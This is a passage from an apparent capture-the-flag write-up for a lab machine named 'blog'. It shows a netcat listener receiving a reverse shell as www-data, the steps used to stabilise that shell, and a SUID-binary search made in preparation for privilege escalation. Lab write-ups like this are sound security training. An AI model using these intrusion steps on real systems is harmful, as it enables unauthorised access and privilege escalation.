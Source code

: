 Now we have gotten a shell! as www-data

```bash
$ >.. nc -nlvp 1337        
Listening on 0.0.0.0 1337
Connection received on 10.10.93.139 56842
Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:21:49 up 26 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

it’s time for us to stabilize our shell

```bash
STEP 1****************************************:
pyhton3 -c 'import pty;pty.spawn ("/bin/bash")'

STEP 2:
Press CTRL + Z to background process and get back to your host machine

STEP 3:
stty raw -echo; fg

STEP 4:
export TERM=xterm****************************************
```

now that we have a stabilized shell our goals is to get root.txt and user.txt

we search for SUID files to escalate our privilege

```bash
www-data@blog:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
```